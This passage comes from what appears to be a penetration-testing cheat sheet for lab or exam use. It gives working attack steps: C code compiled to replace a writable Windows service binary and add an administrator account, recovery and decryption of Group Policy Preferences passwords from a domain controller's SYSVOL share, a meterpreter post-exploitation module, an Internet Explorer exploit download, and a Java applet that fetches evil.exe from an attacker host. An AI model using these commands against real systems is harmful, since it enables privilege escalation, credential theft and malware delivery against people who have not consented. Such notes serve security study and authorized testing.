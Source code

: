          scsiaccess.exe  
         NT AUTHORITY\SYSTEM:(I)(F)  
         BUILTIN\Administrators:(I)(F)  
         BUILTIN\Users:(I)(RX)  
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)  
         Everyone:(I)(F)

- Compile a custom add user command in windows using C  

      ```
      root@kali:~# cat useradd.c  
      #include <stdlib.h> /* system, NULL, EXIT_FAILURE */  
      int main ()  
      {  
      int i;  
      i=system ("net localgroup administrators low /add");  
      return 0;  
      }
      ```  

      `i686-w64-mingw32-gcc -o scsiaccess.exe useradd.c`

- Group Policy Preferences (GPP)  
    A common useful misconfiguration found in modern domain environments
    is unprotected Windows GPP settings files

  - map the Domain controller SYSVOL share  

        `net use z:\\dc01\SYSVOL`

  - Find the GPP file: Groups.xml  

        `dir /s Groups.xml`

  - Review the contents for passwords  

        `type Groups.xml`

  - Decrypt using GPP Decrypt  

        `gpp-decrypt riBZpPtHOGtVk+SdLOmJ6xiNgFH6Gp45BoP3I6AnPgZ1IfxtgI67qqZfgh78kBZB`

- Find and display the proof.txt or flag.txt - get the loot!

    `#meterpreter  >     run  post/windows/gather/win_privs`
    `cd\ & dir /b /s proof.txt`
    `type c:\pathto\proof.txt`

## Client, Web and Password Attacks

### Client Attacks

- MS12-037- Internet Explorer 8 Fixed Col Span ID  
      wget -O exploit.html
      <http://www.exploit-db.com/download/24017>  
      service apache2 start
- JAVA Signed Jar client side attack  
      echo '<applet width="1" height="1" id="Java Secure"
      code="Java.class" archive="SignedJava.jar"><param name="1"
      value="http://$ip:80/evil.exe"></applet>' >
      /var/www/html/java.html  
      User must hit run on the popup that occurs.
- Linux Client Shells  
      [*http://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/*](http://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)
